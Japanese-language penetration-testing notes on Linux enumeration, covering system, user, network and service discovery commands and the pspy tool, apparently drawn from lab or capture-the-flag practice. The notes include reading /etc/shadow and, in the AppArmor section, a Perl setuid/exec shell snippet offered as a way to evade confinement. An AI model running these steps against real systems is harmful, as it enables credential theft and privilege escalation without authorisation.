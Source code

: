 # 列挙

## システム

```shell
# ディストリビューション
ls /etc/*-release
hostname

cat /etc/passwd
cat /etc/group
cat /etc/shadow

ls -lh /var/mail/

ls -lh /usr/bin/
ls -lh /sbin/

# インストールされている全てのパッケージ
rpm -qa
dpkg -l
```

## ユーザー

```shell

# ログインしているユーザー
who
# 誰がログインしていて何をしているか
w
# 最後にログインしたユーザー
last

# ユーザーとグループID
id

sudo -l
```

## ネットワーク

```shell
# IPアドレスと短縮形
ip address show
ip a s

# DNS
cat /etc/resolv.conf

# ネットワーク接続、ルーティング
# -a	リスニングソケットと非リスニングソケットの両方を表示
# -l	リスニングソケットのみ表示
# -n	IPアドレスとポート番号を解決する代わりに数値出力を表示
# -t	TCP
# -u	UDPI
# -x    unix
# -p	(要sudo)ソケットが属するプログラムのPIDと名前を表示
sudo netstat -plt
sudo netstat -atupn

ss -tulnp

# ネットワーク接続
sudo lsof -i
# 25ポート関連のみ
sudo lsof -i :25
# 特定のディレクトリ下で開かれているファイル
sudo lsof +D /path/to/directory
```

## サービス

```shell
# 実行中の全てのプロセス
ps -ef

# ASCIIアートでツリー構造を表現
ps axf

# リソース使用率なども含まれる
ps aux

# サービス一覧
systemctl list-units --type=service --state=running

# 状態
systemctl status <service-name>

# 実行ファイルの情報なども確認できる
systemctl cat <service-name>
```

### pspy

非特権ユーザーでもある程度、誰が何を実行しているか分かるツール。  
https://github.com/DominicBreuker/pspy

## AppArmor

パーミッションがあるはずなのにパーミッション不足でエラーになる場合、AppArmor で制限されているかもしれない。

```shell
# 現在のシェルの種類確認
think@publisher:/var/tmp$ echo $0
-ash

# シェル用のルール確認
think@publisher:/var/tmp$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

下記の形で制限を回避できる可能性がある。

```shell
echo  '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /var/tmp/test.pl
chmod +x /var/tmp/test.pl
/var/tmp/test.pl
```
